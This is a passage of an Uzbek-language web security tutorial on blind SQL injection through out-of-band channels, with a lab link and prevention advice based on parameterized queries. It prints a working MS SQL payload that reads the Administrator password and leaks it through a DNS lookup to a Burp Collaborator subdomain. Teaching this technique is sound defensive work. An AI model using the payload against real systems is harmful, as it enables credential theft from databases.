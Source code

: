 OAST o'zaro tasirlarini ishga tushirish usulini tasdiqlaganingizdan so'ng, zaif dasturdan ma'lumotlarni olish uchun OAST kanalidan foydalanishingiz mumkin. Misol uchun:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Ushbu SQL so'rovi `Administrator` foydalanuvchisining parolini o'qiydi, **uniq Collaborator subdomen**ini qo'shadi va **DNS qidiruv**ini ishga tushiradi. Bu sizga olingan parolni ko'rish imkonini beruvchi quyidagi kabi **DNS** qidiruviga olib keladi: **S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net**

OAST usuli muvaffaqiyatga erishish ehtimoli va OAST kanali ichidagi ma'lumotlarni to'g'ridan-to'g'ri eksfiltratsiya qilish qobiliyati tufayli **Blind SQL** in'ektsiyasini aniqlash va undan foydalanishning juda kuchli usuli hisoblanadi.

:::caution **Lab**
 [Out-of-band ma'lumotlar exfiltratsiyasi yordamida Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
:::

## Blind SQL ineksiya hujumini qanday qilib oldini olish mumkin ? <a href="#blind-sql-ineksiya-hujumini-qanday-qilib-oldini-olish-mumkin" id="blind-sql-ineksiya-hujumini-qanday-qilib-oldini-olish-mumkin"></a>

**Blind SQL** ineksiya zaifliklarini topish va ulardan foydalanish uchun zarur bo'lgan usullar oddiy SQL ineksiyadan farqli va murakkabroq bo'lsada, SQL ineksiyaning oldini olish uchun zarur bo'lgan choralar zaiflik bor yoki yo'qligidan qat'iy nazar, bir xil bo'ladi.

Oddiy SQL ineksiyada bo'lgani kabi, parametrlangan so'rovlardan foydalanish orqali **Blind SQL** ineksiya hujumlarining oldini olish mumkin, bu esa foydalanuvchi kiritishiga mo'ljallangan SQL so'rovi tuzilishiga xalaqit bermasligini ta'minlaydi.
